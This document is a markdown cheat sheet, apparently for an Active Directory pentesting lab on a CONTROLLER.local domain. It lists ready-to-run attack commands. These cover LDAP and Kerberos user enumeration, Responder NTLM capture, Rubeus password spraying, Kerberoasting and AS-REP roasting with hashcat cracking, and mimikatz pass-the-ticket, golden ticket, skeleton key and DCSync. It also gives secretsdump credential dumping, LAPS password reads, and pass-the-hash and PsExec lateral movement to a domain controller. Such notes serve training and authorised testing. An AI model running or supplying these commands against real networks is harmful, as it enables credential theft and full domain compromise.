 # Top Keys #
  1. Make sure you have added the domain to your /etc/hosts file
  2. You can search the hash using hashcat https://hashcat.net/wiki/doku.php?id=example_hashes 
  3. grep -i (ignore case helpful when searching output for password or hashes)
  4. You may need to portforward

# Useful #
1. Get active logged on users
	a. Get-NetLoggedon -ComputerName clientXYZ
2. In 2.05 remember it looks up service principal name and you find iis and hostname for a webserver. 

# LDAP #
1. Basic Search
 
  a. ldapsearch -h $ip -p 389 -x -s base
  
2. Null creds to try and get list of usernames

  a. ldapsearch -x -h $ip -D '' -w '' -b "DC=controller,DC=local"
  
  b. Can clean up output with grep also search for passwords! Remember grep case sensistive grep -i (ignore case)
  

# Responder #
1. Start up responder

  a. sudo responder -I tun0
  
  b. Call request either smb or website (download a file from your python server)
  
  c. Capture the NTLM hash you get

# Kerberute #
  1. Enumerate Users from Kali
  
     a ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
 
 # Rubeus #
  1. Harvest ticket caches
  
    a Rubeus.exe harvest /interval:30
   
  2. Brute force Password1 against all users
  
    a Rubeus.exe brute /password:Password1 /noticket
    
  3. Kerberoast -dump hashes of any kerberoastable users
  
    a Rubeus.exe kerberoast
   
    b Copy hash to hash.txr watch out for spaces
    
    c hashcat -m 13100 -a 0 hash.txt rockyou.txt
    
    
# ASREP Roasting # 
  1. Rubeus 
  
    a. rubeus.exe asreproast
    
    b Get all accounts that do not require pre authentication
    
    c Insert 23$ after $krb5asrep$ so for proper hash formating
    
    d hashcat -m 18200 hash.txt rockyou.txt
    
  2. Impacket GetNPUsers.py
  
    a. sudo python3 /opt/impacket/GetNPUsers.py CONTROLLER.local/ -usersfile users.txt -format hashcat
    
    b.  hashcat -m 18200 hash.txt rockyou.txt
 
 # mimikatz #
 1. ALWAYS RUN AS ADMIN
 2. Pass the Ticket
    a privilege::debug
   
    b sekurlsa::tickets /export (this will export all the tickets into your current directory)
    
    c Choose a ticket with admin (or user you want)
    
    d kerberos::ptt <ticket file name>
	
    e exit mimi
	
    f klist (show that you have now changed)
	
 3. Gold and Silver Tickets
    a run as admin
	
    b privilege::debug
	
    c lsadump::lsa /inject /name:krbtgt (this will dump the hash and security identifier krbtgt can be changed to other account names like sqlservice  or bob)
	
    d Gold ticket ->
	i. Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
	
 4. Mimikatz skeleton
	
		a. run as admin
	
		b. privilege::debug
	
		c. misc::skeleton
	
		d. Exit and you can read shares with default creds mimikatz
			The default credentials will be: "mimikatz"			
			example: net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz - The share will now be accessible without the need for the Administrators password			
      example: dir \\Desktop-1\c$ /user:Machine1 mimikatz - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1!

	
5. Mimikatz Domain Controller Synchronization
	
	a. lsadump::dcsync /user:Administrator
	You will get the NTLM hash
	
	
	# Secrets Dump #
1. Impacket Secrets Dump if you have creds of admin or backup account
	
  a. sudo python3 /opt/impacket/examples/secretsdump.py controller.local/admin:password@controller.local
	
  b. You will get the NTLM hashes 
  
 #Remote In #
  1. evil-winrm -i $ip -u user -p password
  
 # Priv Esc #
 1. If LAPS is in program files
	
    a. ldapsearch -x -h $ip -D user@controller.local -w password -b "DC=controller,DC=local"  "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
	
    b. Powershell schedule task to run rev shell with admin priv?

  # Lateral Movements #

 1. Pass the Hash - You have NTLM creds
	On Kali -> pth-winexe -U bob%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2
eb3b9f05c425e //$ip cmd

2. Over Pass the Hash
	a. Right click a program like notepad and "run as different user"
	
	b. After authneticated that users NTLM hash has now been stored
	
	c. run mimikatz with admin priv 
	
	d. sekurlsa::pth /user:bob /domain:controller.local /ntlm:e2b475c11da2a0748290d
87aa966c327 /run:Powershell.exe
	
	e. net use //dc3  (generate TGT)
	
	f. .\PsExec.exe \\dc3 cmd.exe  (you are now on the dc machine)

	
DCOM
	
	

